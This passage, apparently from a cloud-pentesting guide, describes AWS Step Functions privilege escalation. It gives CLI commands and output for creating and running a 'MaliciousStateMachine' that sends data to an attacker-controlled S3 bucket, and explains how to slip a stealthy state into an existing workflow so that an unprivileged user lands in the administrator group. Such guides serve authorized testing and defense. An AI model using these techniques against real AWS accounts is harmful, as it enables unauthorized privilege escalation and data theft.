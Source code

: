 - **Command** executed to **create the state machine**:

```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
  "stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
  "creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```

- **Command** executed to **start an execution** of the previously created state machine:

```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
    "executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
    "startDate": "2024-07-09T20:33:35.466000+02:00"
}
```

> [!WARNING]
> The attacker-controlled S3 bucket should have permissions to accept an s3:PutObject action from the victim account.

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

### `states:UpdateStateMachine` & (not always required) `iam:PassRole`

An attacker with the **`states:UpdateStateMachine`** permission would be able to modify the definition of an state machine, being able to add extra stealthy states that could end in a privilege escalation. This way, when a legitimate user starts an execution of the state machine, this new malicious stealth state will be executed and the privilege escalation will be successful.

Depending on how permissive is the IAM Role associated to the state machine is, an attacker would face 2 situations:

1. **Permissive IAM Role**: If the IAM Role associated to the state machine is already permissive (it has for example the **`arn:aws:iam::aws:policy/AdministratorAccess`** policy attached), then the **`iam:PassRole`** permission would not be required in order to escalate privileges since it would not be necessary to also update the IAM Role, with the state machine definition is enough.
2. **Not permissive IAM Role**: In contrast with the previous case, here an attacker would also require the **`iam:PassRole`** permission since it would be necessary to associate a permissive IAM Role to the state machine in addition to modify the state machine definition.

```bash
aws states update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```

The following examples show how to update a legit state machine that just invokes a HelloWorld Lambda function, in order to add an extra state that adds the user **`unprivilegedUser`** to the **`administrator`** IAM Group. This way, when a legitimate user starts an execution of the updated state machine, this new malicious stealth state will be executed and the privilege escalation will be successful.
